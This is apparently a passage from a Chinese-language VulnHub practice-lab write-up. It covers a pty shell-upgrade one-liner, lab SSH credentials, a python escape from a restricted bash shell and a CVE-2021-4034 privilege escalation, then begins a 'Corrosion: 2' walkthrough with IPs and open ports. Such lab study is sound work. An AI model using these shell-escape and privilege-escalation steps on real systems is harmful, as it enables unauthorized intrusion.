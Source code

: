 

## **漏洞利用**：

~~~
python -c 'import pty;pty.spawn("/bin/bash");'
~~~



![image-20220822170913330](vulnhub靶场.assets/image-20220822170913330.png)







## **权限提升：**

>  ssh joe@10.0.2.15  
>
> password : 12345

`python -c 'import os; os.system("/bin/sh")'` 绕过 rbash

**CVE-2021-4034** 脚本提权

# Corrosion: 2

## **本机ip**

~~~
192.168.59.10
~~~

## **靶机ip**

~~~
192.168.59.19
~~~

## **信息收集：**

> Discovered open port 22/tcp on 192.168.59.19
> Discovered open port 8080/tcp on 192.168.59.19
> Discovered open port 80/tcp on 192.168.59.19
